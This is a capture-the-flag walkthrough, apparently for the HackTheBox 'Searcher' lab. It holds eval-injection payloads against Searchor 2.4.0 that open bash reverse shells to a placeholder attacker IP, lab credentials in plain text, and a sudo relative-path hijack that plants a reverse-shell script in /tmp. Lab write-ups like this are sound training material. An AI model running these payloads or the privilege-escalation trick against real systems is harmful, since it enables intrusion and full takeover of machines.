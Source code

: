 ###### Nmap Scan
![[Pasted image 20230711201004.png]]
There is a web service running on port 80.

Leads to the below website searcher.htb with an input form.
![[Pasted image 20230711201234.png]]

At the bottom we see that the website is powered by Flask and Searchor 2.4.0. Following the link for Searchor 2.4.0 leads to a Github repository.
Looking through the repository we find a pull request after the 2.4.0 release of a removed eval function which we know can be vulnerable in python.![[Pasted image 20230711201547.png]]
![[Pasted image 20230711201619.png]]
In the commits tab we find the replaced code which would still be vulnerable in Searchor 2.4.0.
Going back to the website we can exploit the eval function
Set up a netcat listener in the background
`nc -lnvp <PORT>`
and insert a payload: `' + eval("__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/<YOUR-IP-ADDRESS>/<PORT OF LISTENER> 0>&1'\")") + '`
Another payload: `', __import__('os').system('bash -c "bash -i >& /dev/tcp/<YOUR-IP-ADDRESS>/<PORT OF LISTENER> 0>&1"')) # comment`

Stabilize the shell using python python - c "import pty;  pty.spawn('/bin/bash')" Ctrl + Z stty raw echo; fg < Enter > export TERM=xterm

Now we're in!
![[Pasted image 20230711203535.png]]
##### Privesc
We can tell Apache is running on the website through wappalyzer so we can take a look at the config files.
![[Pasted image 20230711204443.png]]
There is another virtual host served on gitea.searcher.htb.
![[Pasted image 20230711204552.png]]
We can see a login page also.
![[Pasted image 20230711204617.png]]
However, we don't have any credentials at this time. So let's find some.
![[Pasted image 20230711204807.png]]
There is a config file inside of the directory for the website.
![[Pasted image 20230711204923.png]]
We have credentials! cody:jh1usoih2bkjaspwe92
![[Pasted image 20230711205019.png]]
We logged in with cody.
However, nothing on this site seems too appealing.
Let's try this password for the svc user since it seems like this person might be the same as they both worked on searcher.htb.
![[Pasted image 20230711205215.png]]
It worked. Now we can run commands like sudo -l to enumerate our sudo privileges and see what we can run as root to escalate our privileges.
![[Pasted image 20230711205359.png]]
`usr/bin/python3 /opt/scripts/system-checkup.py *`
We can run this command as root.
Running the command prompts this:
![[Pasted image 20230711205539.png]]
Let's enumerate.
![[Pasted image 20230711205614.png]]
mysql database docker container and gitea docker container
Seems like these options are just running the docker commands...
![[Pasted image 20230711210011.png]]
Now we have credentials for root and gitea.
Let's try to use these passwords to log into the other user we saw on the gitea site, administrator.
![[Pasted image 20230711210311.png]]
The password for gitea worked.
administrator:yuiu1hoiu4i5ho1uh

Now we can inspect the source code for all of these scripts that we are able to run with root privileges. 
![[Pasted image 20230711210459.png]]
We can see in full-checkup that it runs the command ./full-checkup.sh which means we can exploit this by writing our own full-checkup.sh in tmp and running the command from the tmp folder.
```
echo -e '#!/bin/bash\n bash -c "bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1"' > /tmp/full-checkup.sh
cd /tmp
chmod 777 full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
```
![[Pasted image 20230711211732.png]]
ROOOOOOTED!
